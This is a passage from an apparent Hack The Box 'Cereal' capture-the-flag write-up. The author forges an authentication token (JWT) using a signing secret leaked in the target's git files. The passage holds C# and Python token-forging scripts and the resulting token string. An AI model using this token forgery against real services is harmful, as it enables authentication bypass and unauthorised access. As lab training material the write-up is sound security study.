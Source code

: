 Now what we need to do is generate a valid token to be used

We can do it in a windows wm or whatever, I'll use a browser way to generate it

[Fiddle](https://dotnetfiddle.net/)

We copy and paste the code adding the user which appears on the git files

```cs
using System;
using System.Collections.Generic;
using System.IdentityModel.Tokens.Jwt;
using System.Linq;
using System.Security.Claims;
using System.Text;
using Microsoft.IdentityModel.Tokens;

public class Program
{
	public static void Main()
	{
	var tokenHandler = new JwtSecurityTokenHandler();
    	var now = DateTime.UtcNow;
		var tokenDescriptor = new SecurityTokenDescriptor
		{
			Subject = new ClaimsIdentity(new[]
			{
				new Claim( ClaimTypes.Name, "sonny")
				}),
                    Expires = DateTime.UtcNow.AddDays(7),
			SigningCredentials = new SigningCredentials(new SymmetricSecurityKey(Encoding.UTF8.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf")), SecurityAlgorithms.HmacSha256),
		};		
		var token = tokenHandler.CreateToken(tokenDescriptor);  
        var tokenString = tokenHandler.WriteToken(token);
		Console.WriteLine(tokenString);
	}
}
```

We run, and get a JWT valid token

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:11:27.png)

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6InNvbm55IiwibmJmIjoxNjM1NDY5ODQ2LCJleHAiOjE2MzYwNzQ2NDYsImlhdCI6MTYzNTQ2OTg0Nn0.RU7nKKTuV3NOUHWkPNGc_b790kvdm79HLKwWmYmvGL8`

We see again on the code where we'll use it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2009:15:04.png)

It's a post for /requests with a valid ip

We can do a jwk token with a python script (get from 0xdf)

```py
#!/usr/bin/env python3
import jwt
from datetime import datetime, timedelta

print(jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256"))
```
